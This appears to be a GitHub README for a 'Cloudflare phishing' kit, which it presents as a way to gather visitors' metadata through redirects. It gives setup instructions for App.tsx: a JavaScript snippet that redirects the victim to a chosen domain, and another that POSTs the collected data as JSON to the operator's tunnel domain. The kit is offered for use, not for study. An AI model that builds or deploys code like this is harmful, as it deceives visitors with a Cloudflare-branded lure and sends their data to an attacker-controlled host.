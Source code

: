 # Cloudflare phishing
## That's useful thing for gathering meta-datas by using redirect in other sites.
---
### CHANGES
- In directory Frontend, exists file App.tsx, you have to change below:
```js
// Redirect
setTimeout(() => {
      window.location.href = "http://<DOMAIN FOR REDIRECT>";
    }, 1000);

// Your tunnel
const response = await fetch(
      "http://<DOMAIN YOUR TUNNEL>",
      {
        method: "POST",
        headers: {
          "Content-Type": "application/json",
        },
        body: JSON.stringify(data),
      }
    );

```
![Cloudflare](https://external-content.duckduckgo.com/iu/?u=https%3A%2F%2Faetoswire.com%2Fstorage%2Fclients%2Fclient-6590%2Fcloudflare-logo.png&f=1&nofb=1&ipt=f3aa7db60d7aff2b18233ec9b7657ca42488796ee5df52b2116aadb56b27bc3e)
